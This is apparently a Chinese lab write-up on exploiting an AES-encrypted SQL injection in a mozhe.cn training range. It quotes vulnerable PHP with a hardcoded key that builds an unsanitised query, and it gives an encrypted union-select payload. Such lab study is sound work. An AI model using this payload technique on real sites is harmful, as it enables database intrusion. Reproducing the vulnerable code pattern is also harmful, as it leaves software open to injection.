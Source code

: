 ```plain
解密网站：http://tool.chacuo.net/cryptaes
AES密文会受到很多方面的干扰：
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721113178596-b7a0693c-b82e-4e56-aedd-62e818b50d0a.png)

```plain
密码和偏移量是没办法确定的，如果不知道是不可能解密出来的。密文与base64字符集差不多。
演示mozhe：https://www.mozhe.cn/bug/detail/110
访问地址的时候：http://219.153.49.228:46908/news/list.php?id=ZUlJOGMzSmVMMHQwZHhNN3diM056Zz09
参数ZUlJOGMzSmVMMHQwZHhNN3diM056Zz09就是一个密文
拿去base64解密不出，扫描得到：
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721113178822-56c940f2-e8ae-43ca-a204-8e629512c66c.png)

访问：

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721113178641-3183888e-9604-42a4-b1d2-4cd4c2fa6642.png)

```plain
下载后发现源代码：
function decode($data){
	$td = mcrypt_module_open(MCRYPT_RIJNDAEL_128,'',MCRYPT_MODE_CBC,'');
	mcrypt_generic_init($td,'ydhaqPQnexoaDuW3','2018201920202021');
	$data = mdecrypt_generic($td,base64_decode(base64_decode($data)));
	mcrypt_generic_deinit($td);
	mcrypt_module_close($td);
	if(substr(trim($data),-6)!=='_mozhe'){
		echo '<script>window.location.href="/index.php";</script>';
	}else{
		return substr(trim($data),0,strlen(trim($data))-6);
	}
}
$id=decode($_GET['id']);
$sql="select id,title,content,time from notice where id=$id";
$info=$link->query($sql);
$arr=$info->fetch_assoc();
?>
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721113178946-33aa9582-a1f1-44d5-bf63-aa1070cd0c86.png)

发现两次base64解码，而解密平台只有一次解密，所以需要用工具进行一次解码后，在进行平台解密。经过解码，发现明文:

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721113179000-643cdf92-0507-456c-ac6f-3c0ef613d5e1.png)

```plain
Wp:https://blog.csdn.net/qq_38963246/article/details/99065936
构造查询数据库语句： -1 union select 1,database(),3,4_mozhe，经过编码转化得到：MXVsZkNDTGNMTE9yMTJiVHFyNytGVm0rZ2R4ZHllMHRTbTZBNW4rQ2cwZ3ZMK1NFWFoyMkZ3ZVNUTmF5czgxQw==
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721113178984-058fb329-9478-42cd-a319-6a010d990dd5.png)
